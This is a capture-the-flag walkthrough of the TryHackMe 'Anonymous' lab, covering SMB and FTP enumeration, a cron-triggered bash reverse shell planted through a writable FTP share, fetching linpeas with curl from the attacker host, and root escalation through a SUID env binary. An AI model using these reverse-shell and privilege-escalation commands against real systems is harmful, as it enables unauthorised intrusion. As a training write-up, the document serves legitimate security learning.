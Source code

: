 ```yaml
---
title: TryHackMe Anonymous Room Walkthrough
date: 2025-10-31 18:00:00 +0100
categories: [Cybersecurity, Capture The Flag, TryHackMe, Writeups]
tags: [TryHackMe, Anonymous Room, SMB Enumeration, FTP Exploitation, Privilege Escalation]
render_with_liquid: false
---
```

=====================================

Room Overview
-------------

- Difficulty: Medium
- Focus areas: SMB enumeration, FTP abuse, cron exploitation, SUID privesc
- Goal: Capture `user.txt` and `root.txt`

Initial Recon
-------------

I kicked things off with a simple port scan:

```
nmap -sC -sV [target_IP]
```

Open ports came back as 21, 22, 139, and 445. SSH (`22`) was closed off pending credentials, so SMB (`139/445`) and FTP (`21`) became the obvious entry points.

SMB Enumeration
---------------

Anonymous SMB access was enabled:

```
smbclient -L /[target_IP]/ -N
```

The `pics` share allowed read access. I pulled the files locally but they were just benign images. Nothing to extract via `strings` or `steghide`.

FTP Enumeration & Foothold
--------------------------

Anonymous FTP logins were also allowed:

```
ftp [target_IP]
Name: anonymous
Password: [anything]
```

Inside `/scripts` I found three files:

- `to_do.txt` – a small note hinting at housekeeping tasks
- `clean.sh` – bash script that logs “nothing to delete”
- `removed_files.log` – empty, confirming the cleanup script runs via cron

Because the FTP share was writable, I replaced `clean.sh` with a reverse shell payload:

```
#!/bin/bash
bash -i >& /dev/tcp/[My_IP]/1234 0>&1
```

After uploading the modified script, I started a listener with `rlwrap nc -lvn 1234`. A few minutes later, the cron job executed and I caught a shell as the service user.

Shell Stabilisation
-------------------

I upgraded the shell for quality-of-life improvements:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
```

From there I grabbed `user.txt` in the home directory.

Privilege Escalation
--------------------

To get `linpeas.sh` onto the box, I spun up a quick web server on my attacking host with `python3 -m http.server 8000` and fetched the script from the reverse shell using `curl http://[My_IP]:8000/linpeas.sh -o /tmp/linpeas.sh`. After marking it executable, I ran it to enumerate privilege escalation paths.

The standout finding was an unusual SUID binary, `env`, owned by root. `GTFOBins` confirmed it could be abused to overwrite files as root:

```
/usr/bin/env /bin/bash -p
```

With the resulting root shell, I recovered `root.txt` from `/root`.



